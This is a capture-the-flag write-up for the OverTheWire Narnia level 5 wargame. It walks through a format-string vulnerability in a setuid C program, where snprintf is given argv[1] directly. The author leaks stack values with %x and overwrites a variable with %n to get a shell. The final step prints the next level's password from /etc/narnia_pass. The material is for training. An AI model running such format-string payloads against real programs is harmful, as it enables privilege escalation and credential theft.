 ```c
    snprintf(buffer, sizeof buffer, argv[1]);
    buffer[sizeof (buffer) - 1] = 0;
    printf("Change i's value from 1 -> 500. ");

    if(i==500){
            printf("GOOD\n");
    setreuid(geteuid(),geteuid());
            system("/bin/sh");
    }

    printf("No way...let me give you a hint!\n");
    printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
    printf ("i = %d (%p)\n", i, &i);
    return 0;
}
```
The first thing that I notice is I need to overwrite the value of i to 500 to gain control of the shell, however, i is hardcoded to 1. I also notice a format string vulnerability with sprintf() as there is no format specifier provided. I confirmed this with the following payload:
```bash
narnia5@gibson:/narnia$ ./narnia5 %x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc7500.30303537.3330332e] (26)
i = 1 (0xffffd3b0)
```
which indicates a format string vulnerability since addresses like f7fc7500 are being leaked from the buffer output. Using the following payload:
```bash
narnia5@gibson:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x.%x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA.41414141.3431342e.34313431.34332e31.34333133.332e6532.3331] (63)
i = 1 (0xffffd3a0)
```
we find that AAAA is the 1st argument on the stack because 41414141 is AAAA in hex. Now that we know this, we can use %n to overwrite memory on the stack, and the piece of memory that we need to overwrite is the address of i.

We'll start with a simple payload:
```bash
$(python3 -c 'import sys;sys.stdout.buffer.write(b"\xb0\xd3\xff\xff%n")')
```
This changed the value of i to 4, because %n uses the number of bytes it has read so far:
```bash
narnia5@gibson:/narnia$ ./narnia5 $(python3 -c 'import sys;sys.stdout.buffer.write(b"\xb0\xd3\xff\xff%n")')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����] (4)
i = 4 (0xffffd3b0)
```
Now we can use a neat trick to write large values:
```bash
narnia5@gibson:/narnia$ ./narnia5 $(python3 -c 'import sys;sys.stdout.buffer.write(b"\xb0\xd3\xff\xff%496d%1$n")')
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6    
BNSjoSDeGL
```
